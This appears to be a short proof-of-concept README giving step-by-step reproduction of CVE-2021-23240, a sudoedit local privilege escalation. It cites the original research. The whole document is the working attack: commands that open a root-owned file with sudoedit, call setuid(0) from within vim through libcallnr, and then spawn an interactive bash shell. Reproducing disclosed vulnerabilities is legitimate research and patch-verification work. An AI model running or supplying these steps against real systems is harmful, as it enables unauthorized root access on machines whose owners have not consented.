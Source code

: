 Original research from https://blog.mirch.io/2021/01/25/sudoedit-lpe/

Step to reproduce CVE-2021-23240

1) Edit file /etc/test.txt with sudoedit
sudoedit /etc/test.txt

2) Using vim command to calling setuid() directly.
```:call libcallnr("libc.so.6","setuid",0)```

3) Run bash interactive shell
```:!bash```
